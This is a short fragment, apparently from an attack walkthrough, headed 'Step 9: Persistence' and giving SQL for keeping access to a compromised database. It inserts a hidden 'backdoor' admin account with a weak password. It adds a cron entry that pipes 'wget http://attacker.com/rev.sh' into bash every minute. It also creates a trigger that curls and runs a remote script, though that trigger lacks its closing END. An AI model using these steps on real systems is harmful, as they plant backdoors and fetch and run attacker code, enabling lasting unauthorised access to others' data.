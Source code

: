 ## Step 9: Persistence

Add a New Web Admin
```sql
INSERT INTO users (username, password, role) VALUES ('backdoor', 'pass123', 'admin');
```

Inject into Cron Job Table
```sql
INSERT INTO cron_jobs (command, schedule) VALUES ('wget http://attacker.com/rev.sh | bash', '* * * * *');
```

Create a DB Trigger for Auto-Reexecution
```sql
CREATE TRIGGER persist AFTER INSERT ON users
FOR EACH ROW BEGIN
CALL system('curl http://attacker.com/revive.sh | sh');
```